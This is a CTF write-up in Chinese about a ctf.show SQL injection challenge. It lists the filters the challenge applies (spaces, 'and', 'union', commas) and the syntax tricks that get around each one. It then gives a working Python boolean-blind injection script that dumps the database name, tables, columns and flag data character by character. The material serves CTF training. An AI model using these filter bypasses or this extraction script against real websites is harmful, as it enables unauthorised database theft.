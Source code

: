 ```yaml
---
title: "Web8  @WEB"
date: 2023-07-23
draft: false
author: "Goby"
tags: ["web","ctf.show"]
---
```


 sql注入，通过恒成立判断为数值型注入且过滤条件较多，注入类型使用布尔盲注

过滤条件:

1. 过滤空格, 可以使用括号() 或者注释/**/ 绕过
2. 过滤and, 可以使用or替代
3. 过滤union, 可以用盲注替代联合注入
4. 过滤逗号, 可以使用特殊语法绕过, 比如:substr(database(),1,1) 可以用substr(database() from 1 for 1)来代替

```sql
id=-1/**/or/**/true
```

![](/ctf.show/15/1.webp)

接下来使用盲注脚本进行脱库:

```python
import requests
url ='http://82a453a5-d9db-4c75-b233-7e4a69ab7ba8.challenge.ctf.show/index.php?id=-1/**/or/**/'
name = ''

# 循环46次( 循环次数按照返回的字符串长度自定义)
for i in range(1, 46):
    # 获取当前使用的数据库
    # payload = 'ascii(substr(database()from/**/%d/**/for/**/1))=%d'
    # 获取当前数据库的所有表
    # payload = 'ascii(substr((select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema=database())from/**/%d/**/for/**/1))=%d'
    # 获取flag表的字段
    # payload = 'ascii(substr((select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name=0x666C6167)from/**/%d/**/for/**/1))=%d'
    # 获取flag表的数据
    payload = 'ascii(substr((select/**/flag/**/from/**/flag)from/**/%d/**/for/**/1))=%d'
    count = 0
    print('正在获取第 %d 个字符' % i)
    # 截取SQL查询结果的每个字符, 并判断字符内容
    for j in range(31, 128):
        result = requests.get(url + payload % (i, j))

        if 'If' in result.text:
            name += chr(j)
            print('数据库名/表名/字段名/数据: %s' % name)
            break

        # 如果某个字符不存在,则停止程序
        count += 1
        if count >= (128 - 31):
            exit()
```

成功脱库，拿到flag

![](/ctf.show/15/2.webp)